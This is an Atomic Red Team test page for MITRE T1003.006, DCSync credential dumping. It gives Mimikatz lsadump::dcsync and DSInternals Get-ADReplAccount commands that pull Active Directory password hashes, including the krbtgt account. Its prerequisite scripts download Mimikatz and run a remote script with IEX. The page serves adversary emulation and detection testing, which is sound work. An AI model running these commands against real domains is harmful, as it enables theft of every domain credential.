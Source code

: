 ```yaml
---
tags: [T1003_006, atomic_test]
filename: "[[T1003.006 - OS Credential Dumping- DCSync]]"
---
```

# T1003.006 - OS Credential Dumping: DCSync

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | string | %userdnsdomain%|
| user | Targeted user | string | krbtgt|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount
The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout. 
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellarParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows


**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;")|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-ADReplAccount -All -Server #{logonserver}
```




#### Dependencies:  Run with `powershell`!
##### Description: DSInternals must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```




<br/>
